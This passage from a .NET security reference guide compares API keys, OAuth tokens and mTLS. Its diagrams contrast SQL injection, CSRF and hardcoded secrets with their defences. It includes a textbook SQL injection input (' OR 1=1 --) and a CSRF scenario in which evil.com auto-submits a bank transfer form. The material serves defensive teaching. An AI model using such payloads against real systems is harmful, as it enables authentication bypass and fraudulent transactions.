var hash = SHA256.HashData(Encoding.UTF8.GetBytes(password)); // NEVER for passwords
```

---

## SEC-C9 — API Key vs OAuth Token vs mTLS (Service-to-Service)

| | API Key | OAuth Token (JWT) | mTLS (Client Certificate) |
|-|---------|-----------------|--------------------------|
| Identity proof | ❌ Shared secret (anyone with key) | ✅ Signed by auth server | ✅ Certificate bound to service |
| Revocation | Delete key (manual) | Token expiry + refresh | Certificate revocation (CRL/OCSP) |
| Rotation | Manual | Automatic (short-lived) | Certificate renewal |
| Use for | Simple external APIs, webhooks | User-facing APIs, fine-grained scopes | Microservice mesh (zero-trust) |
| Risk if leaked | Anyone can use | Short expiry limits damage | Cannot be used without private key |


---

# 📊 Security Flow Diagrams — Visual Reference

---

## SEC-D1 — JWT Authentication Flow



---

## SEC-D2 — OAuth 2.0 + OIDC Login Flow



---

## SEC-D3 — TLS Handshake (Simplified)



---

## SEC-D4 — SQL Injection Attack vs Defence

```mermaid
flowchart TD
    subgraph Attack["❌ SQL Injection Attack"]
        INPUT1["Input: ' OR 1=1 --"] --> CONCAT["String concat:\n\"SELECT * FROM Users WHERE Name = '\" + input + \"'\""]
        CONCAT --> EVIL["Executed SQL:\nSELECT * FROM Users WHERE Name = '' OR 1=1 --'"]
        EVIL --> RESULT1[🔓 Returns ALL users\nAuthentication bypassed!]
    end

    subgraph Defence["✅ Parameterised Query Defence"]
        INPUT2["Input: ' OR 1=1 --"] --> PARAM["EF LINQ / Parameters:\n_db.Users.Where(u => u.Name == input)"]
        PARAM --> SAFE["Generated SQL:\nSELECT * FROM Users WHERE Name = @p0\n@p0 = ''' OR 1=1 --' (literal string)"]
        SAFE --> RESULT2[✅ Returns 0 users\nAttack neutralised]
    end

    style RESULT1 fill:#f44336,color:#fff
    style RESULT2 fill:#4CAF50,color:#fff
```

---

## SEC-D5 — CSRF Attack vs SameSite Defence

```mermaid
sequenceDiagram
    participant A as Alice (victim)
    participant BANK as bank.com (trusted)
    participant EVIL as evil.com (attacker)

    A->>BANK: Login → session cookie set\nCookie: session=abc; HttpOnly
    A->>EVIL: Visit evil.com (attacker's site)

    rect rgb(255, 200, 200)
        note over EVIL,BANK: ❌ Without SameSite protection
        EVIL->>A: Hidden form that auto-submits\nPOST bank.com/transfer { to: hacker, amount: 10000 }
        A->>BANK: Browser auto-sends session cookie!
        BANK->>BANK: Valid session → executes transfer 💸
    end

    rect rgb(200, 255, 200)
        note over EVIL,BANK: ✅ With SameSite=Strict cookie
        EVIL->>A: Same hidden form auto-submits
        A->>BANK: Browser blocks cookie (cross-site request)
        BANK->>BANK: No session cookie → 401 Unauthorized ✅
    end
```

---

## SEC-D6 — Secret Management with Azure Key Vault

```mermaid
flowchart LR
    subgraph Bad["❌ Secrets in Code"]
        CODE["appsettings.json\n{ \"Jwt\": { \"Key\": \"secret123\" } }"]
        GIT[Git Repository] --> CODE
        ATTACKER[😈 Attacker reads repo\n= has all secrets]
        CODE --> GIT
        GIT --> ATTACKER
    end

    subgraph Good["✅ Azure Key Vault + Managed Identity"]
        APP[.NET Application] -->|DefaultAzureCredential\nNo passwords in code| KV[Azure Key Vault]
        KV -->|returns secret at runtime| APP
        MI[Managed Identity\nassigned to App Service] -->|authenticates| KV
        APP --> MI
    end

    style ATTACKER fill:#f44336,color:#fff
    style KV fill:#4CAF50,color:#fff
    style MI fill:#2196F3,color:#fff
```

